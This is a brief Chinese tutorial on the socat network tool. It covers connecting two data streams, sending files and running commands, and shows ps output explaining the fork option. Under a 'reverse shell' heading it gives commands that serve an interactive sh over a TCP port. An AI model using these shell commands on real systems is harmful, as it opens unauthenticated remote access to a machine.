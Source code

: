 Socat 是 Linux 下的一个多功能的网络工具，名字来由是 「Socket CAT」。其功能与有瑞士军刀之称的 Netcat 类似，可以看做是 Netcat 的加强版。

Socat 的主要特点就是在两个数据流之间建立通道，且支持众多协议和链接方式。如 IP、TCP、 UDP、IPv6、PIPE、EXEC、System、Open、Proxy、Openssl、Socket等。
[官网](http://www.dest-unreach.org/socat/)

### 反弹shell(发送终端)
    客户机: socat - tcp:ip:8888 (ip为服务端ip)
---
    服务端: socat tcp-l:8888 exec:sh,pty,stderr

### 发送文件
    发送端: socat -u open:hello.txt tcp-l:8888
---
    接收端: socat -u tcp:IP:8888 open:hello.txt,create,append

### 执行命令(这里是cat, 发什么数据返回什么)
    客户端: socat - tcp:IP:port
    相当于: nc IP port
---
    服务端: socat tcp-l:port exec:"/bin/cat",fork
    这里加和不加fork的区别是会不会为每一个链接单独开一个进程
    不加fork
    501 27202 27201   0 10:25AM ttys003    0:00.26 -bash
    501 27501 27202   0 10:37AM ttys003    0:00.00 socat -v tcp-l:8181 exec:/bin/cat
    此单进程一直工作
    bash->socat

    加fork
    501 27519 27202   0 10:41AM ttys003    0:00.00 socat -v tcp-l:8182,fork exec:/bin/cat
    501 27527 27519   0 10:44AM ttys003    0:00.00 socat -v tcp-l:8182,fork exec:/bin/cat
    501 27540 27519   0 10:47AM ttys003    0:00.00 socat -v tcp-l:8182,fork exec:/bin/cat
    不同的链接会由有不同的进程
    bash->socat->不同的进程工作
